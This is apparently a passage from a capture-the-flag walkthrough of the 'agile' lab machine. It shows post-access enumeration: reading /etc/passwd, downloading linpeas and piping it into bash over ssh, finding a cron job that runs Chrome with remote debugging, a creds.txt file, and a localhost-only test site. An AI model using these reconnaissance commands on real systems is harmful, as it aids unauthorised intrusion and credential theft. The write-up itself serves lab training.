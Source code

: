 ```bash
corum@agile:~$ cat /etc/passwd | grep -E *sh$
root:x:0:0:root:/root:/bin/bash
corum:x:1000:1000:corum:/home/corum:/bin/bash
runner:x:1001:1001::/app/app-testing/:/bin/sh
edwards:x:1002:1002::/home/edwards:/bin/bash
dev_admin:x:1003:1003::/home/dev_admin:/bin/bash
```

Running linpeas in the background

```bash
wget --no-check-certificate https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
ssh corum@superpass.htb bash < linpeas.sh
```

A cron is executing `/bin/bash /app/test_and_update.sh` as user "runner" which  script which is running `/usr/bin/google-chrome` with remote debugging enabled on port "41829".

![](screenshots/shell-processes-view.png)

This script is running test application from `/app/app-testing`

In the `/app/app-testing/tests/functional` directory, there is a `creds.txt` file and a `test_site_interactively.py` script which automate wep app features.

```bash
corum@agile:/app/app-testing/tests/functional$ ls -l
total 12
drwxrwxr-x 2 runner    runner 4096 Mar  5 09:15 __pycache__
-rw-r----- 1 dev_admin runner   34 Mar  5 09:18 creds.txt
-rw-r--r-- 1 runner    runner 2663 Mar  5 09:18 test_site_interactively.py
```

Test application is running on hostname `test.superpass.htb`

And it we see the nginx sites config, `test.superpass.htb` only accessible from localhost.

```bash
corum@agile:/etc/nginx/sites-enabled$ cat /etc/nginx/sites-available/superpass-test.nginx
server {
    listen 127.0.0.1:80;
    server_name test.superpass.htb;

    location /static {
        alias /app/app-testing/superpass/static;
        expires 365d;
    }
    location / {
        include uwsgi_params;
        proxy_pass http://127.0.0.1:5555;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-Protocol $scheme;
    }
}
```
